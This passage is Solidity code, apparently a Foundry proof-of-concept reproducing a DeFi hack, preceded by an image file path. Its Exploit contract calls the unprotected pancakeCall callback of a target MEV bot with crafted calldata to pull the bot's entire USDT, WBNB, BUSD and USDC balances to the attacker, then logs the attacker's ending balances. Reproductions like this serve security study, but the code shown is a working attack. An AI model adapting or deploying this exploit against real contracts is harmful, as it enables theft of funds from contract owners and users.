 ```solidity
        emit log_named_decimal_uint("[End] Attacker WBNB Balance", IERC20(WBNB_ADDRESS).balanceOf(address(this)), 18);
        emit log_named_decimal_uint("[End] Attacker BUSD Balance", IERC20(BUSD_ADDRESS).balanceOf(address(this)), 18);
        emit log_named_decimal_uint("[End] Attacker USDC Balance", IERC20(USDC_ADDRESS).balanceOf(address(this)), 18);

    }

    function swap(uint amount0Out, uint amount1Out, address to, bytes calldata data) public {}

}

contract Exploit is Test { // Attack Contract

    address private owner;
    address public token0;
    // address public token1;

    constructor() {
        owner = msg.sender;
        console.log("Exploit Created by %s", owner);
    }

    function attack() public {
        token0 =  USDT_ADDRESS;
        subAttack();
        token0 =  WBNB_ADDRESS;
        subAttack();
        token0 =  BUSD_ADDRESS;
        subAttack();
        token0 =  USDC_ADDRESS;
        subAttack();
    }

    function subAttack() private {
        IBOT(TARGET_MEV).pancakeCall(
            address(this), 
            IERC20(token0).balanceOf(TARGET_MEV),
            0, 
            abi.encodePacked(
                bytes12(0), bytes20(address(owner)), // slot
                bytes32(0), 
                bytes32(0))
        );
    }

    function token1() public returns(address){
        return token0;
    }


}

// interface of MEV
interface IBOT {
    function pancakeCall(address sender, uint amount0, uint amount1, bytes calldata data) external;
}
```

<hr />

